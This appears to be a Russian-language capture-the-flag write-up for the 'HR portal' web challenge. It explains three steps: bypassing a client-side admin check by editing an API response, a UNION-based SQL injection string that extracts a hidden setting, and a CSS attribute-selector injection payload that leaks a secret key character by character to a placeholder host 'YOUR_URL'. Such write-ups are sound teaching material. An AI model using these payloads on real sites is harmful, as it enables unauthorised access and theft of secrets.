



# [web] HR portal

> **Категория:** `web`  
> **CTF:** KubSTU CTF 2026 Spring

### Описание 

 Все специалисты знают: главный в компании — не директор, а HR. Именно он решает судьбу и вручает заветный оффер. Исследуйте наш новый портал и раскройте секреты HR-менеджера.  

### Writeup

1. Проходим регистрацию и входим в портал
2. Смотрим JS либо запросы

Один из запросов –  api/user-info , который отвечает за права пользователя. Но защита реализована только на клиентской стороне. Поэтому ее можно обойти различными способами. 
Самый простой, подменить в ответе значение is_admin c 0 на 1

 

 

У нас появляются две кнопочки

 

В Get Promotion находится конечная форма для вставки секрета и получения флага
А также в коде страницы есть небольшой хинт для составления будущего CSS payload

 

Во второй кнопке Open Admin Panel мы видим поиск настроек, который уязвим к SQLi

 

С помощью скули вытягиваем значение атрибута, которое нам также понадобится для составления CSS иньекции

  `' UNION SELECT setting_value FROM admin_settings WHERE setting_name='secret_field_name' -- -`  

 

В итоге получаем примерно такую нагрузку
 
 `.admin-secret-key[data-hr_secret_key_f5g4^="A"] { background-image: url("http://YOUR_URL?char=A" ); }`  

 

Далее используем ключ для получения флага

 

